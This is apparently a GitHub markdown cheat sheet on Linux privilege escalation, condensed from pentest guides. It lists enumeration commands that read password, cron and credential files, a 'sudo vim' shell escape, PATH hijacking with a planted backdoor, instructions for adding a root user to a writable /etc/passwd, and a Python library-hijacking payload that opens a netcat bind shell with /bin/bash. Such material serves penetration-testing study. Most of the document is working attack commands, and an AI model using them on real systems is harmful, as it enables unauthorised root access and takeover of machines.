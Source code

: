 # Linux Privilege Escalation

Condensed version of the checklists found on [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation) and [Sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html). There is a plethora of ways to escalate privileges but I'm going to list the most common ways to escalate privileges (In my experience) 

## System Information

### Path
Check for write permissions on any folder within your PATH. Potential to hijack libraries or binaries.
```bash
echo $PATH
```

### Kernel Exploits
Check the OS and kernel version for potential exploits
```
cat /etc/issue
uname -a
```

### CVE-2016-5195 (DirtyCow)
Impacts Linux kernel versions <4.8.3
```
https://github.com/exrienz/DirtyCow
```

### Sudo
```bash
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```

### Check for compiler
It's always best to try and compile exploits on the target machine. This reduces the chance of error from being compiled on a different architecture.
```bash
dpkg --list 2>/dev/null | grep "compiler" | grep -v "decompiler\|lib" 2>/dev/null || yum list installed 'gcc*' 2>/dev/null | grep gcc 2>/dev/null; which gcc g++ 2>/dev/null || locate -r "/gcc[0-9\.-]\+$" 2>/dev/null | grep -v "/doc/"
```
### Installed Software
Find software installed on the machine along with its version. Might find some old software that has a vulnerability.
```bash
dpkg -l #Debian-based
rpm -qa #Centos-based
```

### Running processes
```
ps aux
```

### Inside Service
```
netstat -anlp
netstat -ano
```

### Cronjobs
Check for anything that is owned by a more privileged user but writable by you
```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

### Unmounted filesystems
```
mount -l
cat /etc/fstab
```

## Users
### Standard Enumeration
```bash
#Info about me
id || (whoami && groups) 2>/dev/null
#List all users
cat /etc/passwd | cut -d: -f1
#List users with console
cat /etc/passwd | grep "sh$"
#List superusers
awk -F: '($3 == "0") {print}' /etc/passwd
#Currently logged users
w
#Login history
last | tail
#Last log of each user
lastlog

#List all users and their groups
for i in $(cut -d":" -f1 /etc/passwd 2>/dev/null);do id $i;done 2>/dev/null | sort
```

### Sudo/SUID
```bash
sudo -l #Check commands you can execute with sudo
find / -perm -4000 2>/dev/null #Find all SUID binaries
```


### NOPASSWD
With this permission, the user can run a specific command (or any) as another user without knowing the password.
```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```
Here the user demo can run the vim command as the root user. We could get a root shell by executing the following:
```bash
sudo vim -c '!sh'
```

### Sudo/SUID w/o command path
If the user has sudo permission for a command without specifying its path (i.e *randomuser ALL = (root) less*), it can be exploited by changing the PATH variable
```bash
export PATH=/tmp:$PATH
#Put your backdoor in /tmp and name it "less"
sudo less
```

### GTFOBins
[GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions. With these you can break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and lots of other things.

__NOTE__: [FallofSudo](https://github.com/Critical-Start/FallofSudo) can help exploit permissions from `sudo -l`

## SSH
### Config Values
SSH configuration files are typically either /etc/ssh/ssh_config or /etc/ssh/sshd_config. Within these files you may find some interesting values:
```
PasswordAuthentication: Specifies whether password authentication is allowed. The default is no.
PubkeyAuthentication: Specifies whether public key authentication is allowed. The default is yes.
PermitEmptyPasswords: When password authentication is allowed, it specifies whether the server allows login to accounts with empty password strings. The default is no.
```

### PermitRootLogin
Specifies whether root can log in using ssh, default is no. Possible values:
* `yes` : root can login using password and private key
* `without-password` or `prohibit-password`: root can only login with private key
* `forced-commands-only`: Root can login only using privatekey cand if the commands options is specified
* `no` : no

### AuthorizedKeysFile
Sometimes you may be able to obtain the private ssh key of another, more privileged user. This will enable you to ssh in as that user without knowing their password. This key file `id_rsa` will usually be located in the `/home/{USER}/.ssh` directory.

## Interesting Files
### Writeable /etc/passwd
If `/etc/passwd` is writable, you can easily create a user with root privileges.
```
perl -e 'print crypt("{PASSWOR}", "{SALT}"),"\n"'
```
Then add the user and generated password to the file
```
USER_HERE:GENERATED_PASSWORD_HERE:0:0:root:/root:/bin/bash
```

### Writing to a sensitive file
```bash
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | sort | uniq #Find files owned by the user or writable by anybody
for g in `groups`; do find \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME; done #Find files writable by any group of the user
```

### Backup files
```bash
find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \( -name "*backup*" -o -name "*\.bak" -o -name "*\.bck" -o -name "*\.bk" \) 2>/dev/nulll
```

### Python library hijacking
Let's say a python script is executed as root and uses the library shutil. To hijack the file and get a root shell, create a shutil.py file, re-create the method that is called but put in a reverse shell command. For example, say it calls the make_archive method of shutil, then our shutil.py would look something like this:
```python
import os

os.system("nc -lvp 9000 -e /bin/bash")
```
Next whatever directory this is in, we'll have to add it to the python path so it will be called instead of the standard shutil library.
```bash
sudo -E PYTHONPATH=$(pwd)
```
Once the script runs, connect to the port:
```
rlwrap nc IP 9000
```